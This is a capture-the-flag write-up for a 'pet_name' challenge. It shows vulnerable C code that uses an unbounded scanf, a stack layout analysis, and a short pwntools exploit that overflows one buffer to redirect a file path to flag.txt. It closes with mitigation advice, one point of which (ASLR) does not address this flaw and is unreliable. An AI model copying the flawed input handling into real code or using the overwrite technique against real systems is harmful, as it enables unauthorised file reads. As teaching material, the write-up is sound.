 # pet_name WriteUp

## Challenge Description
This challenge involves exploiting a simple buffer overflow vulnerability to modify a file path variable and read the flag file instead of the intended pet sound file.

## Binary Analysis
```bash
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

## Source Code Analysis

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

void init() {
    setbuf(stdout, NULL);
    setbuf(stdin, NULL);
}

int main() {
    init();

    char pet_name[32] = {0};
    char path[128] = "/home/pwn/pet_sound.txt";

    printf("Your pet name?: ");
    scanf("%s", pet_name);

    FILE *fp = fopen(path, "r");
    if (fp) {
        char buf[256] = {0};
        if (fgets(buf, sizeof(buf), fp) != NULL) {
            printf("%s sound: %s\n", pet_name, buf);
        } else {
            puts("Failed to read the file.");
        }
        fclose(fp);
    } else {
        printf("File not found: %s\n", path);
    }
    return 0;
}
```

### Vulnerability Analysis
1. **Buffer Overflow**: No input length validation in `scanf("%s", pet_name)`
2. **Adjacent Variables**: The `pet_name[32]` and `path[128]` buffers are adjacent on the stack
3. **Path Injection**: Overflowing `pet_name` can overwrite the `path` variable

## Memory Layout Analysis

Through disassembly analysis, we can identify the stack layout:

```text
[rbp-0x1b0] <- pet_name[32]     (32 bytes)
[rbp-0x190] <- path[128]        (128 bytes, initialized with "/home/pwn/pet_sound.txt")
```

**Key Findings:**
- Stack offset difference: 0x20 (32 bytes)
- Perfect alignment for buffer overflow attack
- No stack canary between the buffers

### Assembly Analysis
```asm
1284:   movq   $0x0,-0x1b0(%rbp)       # pet_name initialization
128f:   movq   $0x0,-0x1a8(%rbp)       
129a:   movq   $0x0,-0x1a0(%rbp)
12a5:   movq   $0x0,-0x198(%rbp)       # pet_name[28-31]
12b0:   movabs $0x77702f656d6f682f,%rax # "/home/pw"
12c4:   mov    %rax,-0x190(%rbp)        # path[0-7]
```

## Exploitation Strategy

The attack leverages the buffer overflow to perform path injection:

1. **Fill Buffer**: Send exactly 32 bytes to fill the `pet_name` buffer
2. **Overwrite Path**: Append the target file path `/home/pwn/flag.txt`
3. **File Redirection**: The program will open and read the flag file instead

### Attack Flow
```
Input: [32 bytes padding] + ["/home/pwn/flag.txt\x00"]
              ↓
Memory: pet_name[32] → path["/home/pwn/flag.txt"]
              ↓
Result: Program reads flag.txt instead of pet_sound.txt
```

## Exploit Code

```python
from pwn import *

# Connect to the remote service
p = remote('localhost', 9080)

# Craft the payload
payload = b'a'*0x20 + b'/home/pwn/flag.txt\x00'

# Send the payload
p.sendlineafter(b': ', payload)

# Interact with the program to get the flag
p.interactive()
```

### Payload Structure
- `b'a'*0x20`: 32 bytes of padding to fill the `pet_name` buffer
- `b'/home/pwn/flag.txt\x00'`: Target file path with null terminator
- Total payload size: 32 + 18 = 50 bytes

### Exploitation Process
1. **Connection**: Establish connection to the remote service
2. **Payload Delivery**: Send the crafted payload when prompted for pet name
3. **Buffer Overflow**: The input overflows `pet_name` and overwrites `path`
4. **File Operation**: Program attempts to open the modified path
5. **Flag Retrieval**: Contents of flag.txt are displayed in the output

## Execution Flow

1. Program initializes with `path = "/home/pwn/pet_sound.txt"`
2. User input overflows `pet_name` buffer
3. Overflow data overwrites `path` with `/home/pwn/flag.txt`
4. `fopen(path, "r")` opens the flag file
5. Flag contents are read and displayed via `printf("%s sound: %s\n", pet_name, buf)`

## Mitigation

This vulnerability could be prevented by:
- Using `fgets()` or `scanf("%31s", pet_name)` for bounded input
- Adding input validation and length checks
- Using stack canaries (though present, not between these specific variables)
- Implementing Address Space Layout Randomization (ASLR)

## Flag
Executing this exploit successfully retrieves the flag from `/home/pwn/flag.txt`.